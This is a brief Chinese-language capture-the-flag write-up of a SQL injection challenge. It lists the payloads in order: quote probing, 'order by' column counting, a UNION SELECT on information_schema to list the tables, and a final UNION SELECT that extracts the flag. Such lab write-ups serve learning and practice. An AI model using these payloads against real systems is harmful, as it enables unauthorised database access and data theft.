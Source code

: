 传入 `admin` `admin'` 报错,猜测闭合方式为`'`

传入 `1' or 1=1 order by 1#` `1` 正常回显

传入 `1' or 1=1 order by 2#` `1` 正常回显

传入 `1' or 1=1 order by 3#` `1` 正常回显

传入 `1' or 1=1 order by 4#` `1` 报错,可知一共三列

传入 `1' and 1=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#` `1` 得知共有两个table分别为`flag`和`users`

传入 `1' and 1=1 union select 1,2,group_concat(flag) from flag#` `1` getflag